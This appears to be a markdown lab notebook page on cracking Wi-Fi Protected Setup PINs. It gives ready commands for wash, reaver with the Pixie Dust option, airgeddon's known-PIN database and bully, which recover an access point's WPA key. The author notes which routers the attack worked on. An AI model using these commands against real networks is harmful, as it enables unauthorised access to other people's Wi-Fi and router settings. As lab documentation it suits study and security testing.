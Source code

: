 # WPS

* Run [setup](../../setup.md) first
* Two terminals are needed
* AP must have WPS enabled using PIN here
    * For sake of time, just use `01235678`
    * This is the third guess and the guesses are not random
* WPS version 1.0 (brute force)
* If WPS is `Lck==Yes`, then an attack is not possible

Wash is an auxiliary tool designed to display WPS enabled Access Points and their main characteristics. Wash is included in the Reaver package.

Reaver performs a brute force attack against an access point's WiFi Protected Setup pin number. Once the WPS pin is found, the WPA PSK can be recovered and alternately the AP's wireless settings can be reconfigured

## Commands

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Scan for APs with WPS -
sudo wash -i $INTERFACE

# Stop the scan
ctrl+c

# Wait until INTERFACE appears with BSSID
sudo reaver -b $BSSID -i $INTERFACE -v

# THIS TAKES FOREVER AND EVEN IF PIN IS SET TO FIRST GUESS
# DOES NOT WORK :( ON FRONTIER ROUTER ... WHICH IS WPS V1.0

# Try with the PixieWPS option (FAST)
sudo reaver -b $BSSID -i $INTERFACE -v -K
```
* Worked quite fast on WPS v2.0 router, not at all on WPS v1.0 router

![success](../../images/wps-pixiewps.png)

## Airgeddon / Reaver / Bully

[Enable Network Manager](../../teardown.md)

```bash
sudo systemctl start NetworkManager
sudo apt install airgeddon -y
source /usr/share/airgeddon/known_pins.db
sudo airmon-ng check kill

# Some APs don't have a PIN ... used as blank
# See if we can find a match first six HEX of AP MAC BSSID
# Case-sensitive ... if pins are returned then try them
# For example
echo ${PINDB["0013F7"]}

14755989 48703970 06017637

# Then try each one
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 14755989
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 48703970
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 06017637
```

## Bully

* Did not work

```bash
sudo bully -b $BSSID -c $CHANNEL -d -v 4  $INTERFACE
```

## References

* [Wi-Fi Protected Setup](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)
* [Reaver GitHub](https://github.com/t6x/reaver-wps-fork-t6x)
* [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
